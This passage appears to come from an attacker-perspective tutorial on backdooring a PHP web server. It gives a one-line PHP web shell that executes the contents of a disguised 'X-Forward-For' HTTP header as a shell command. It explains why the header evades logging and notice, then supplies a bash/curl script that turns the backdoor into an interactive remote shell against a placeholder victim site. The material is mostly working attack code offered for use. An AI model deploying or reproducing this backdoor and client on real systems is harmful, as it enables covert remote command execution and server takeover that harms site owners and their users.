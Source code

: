 ~~~
if(isset($_SERVER['HTTP_X_FORWARD_FOR']))
    system($_SERVER['HTTP_X_FORWARD_FOR'].' 2>&1');
{/php}
~~~

This just looks for a custom HTTP header, and if present, executes it as a shell command. The "2>&1" makes the shell [redirect errors to the normal output](http://tldp.org/LDP/abs/html/io-redirection.html). Without it, we would not be able to see them, or worse, they might go into a log file somewhere. The name of the header is normal-looking but actually unused - if anyone stumbles upon it, it might look legitimate at first glance.

There are a number of reasons for using a custom header instead of a query parameter:



	
  * less chance of someone passing it by accident

	
  * headers are not ordinarily logged

	
  * we can send normal-looking GET requests

	
  * magic_quotes_gpc does not affect headers


It's useful to write a quick little [shell script](http://en.wikipedia.org/wiki/Shell_script) to call this page and filter the output. We don't want to insert any markers in the output, so we'll manually count the number of lines to strip before and after our command:

~~~ bash
#!/bin/bash

BEFORE=36 # lines from beginning to delete
AFTER=42  # lines from end to delete
URL="http://victim34.example.com/vuln.php"
HEADER="X-Forward-For"
VUSER="victim34" # so we remember who and where we are
VDIR="/home/$VUSER/victim34.example.com/public_html"

# fake prompt
while echo -n "$VUSER:$VDIR% " && read cmd
do echo "% $cmd" >> log.txt
   curl -H "$HEADER: $cmd" $URL \
     | tee full.txt \
     | tail -n "+$BEFORE" \
     | sed -n -e :a -e '1,'"$AFTER"'!{P;N;D;};N;ba' \
     | tee -a log.txt
done
~~~

This shell script uses curl and some sed voodoo to peel off the lines we're not interested in. As an added bonus, it keeps a log of the commands we're running and their output, and if something goes wrong we can check out the unmodified response in full.txt.


## Local Root = Remote Root

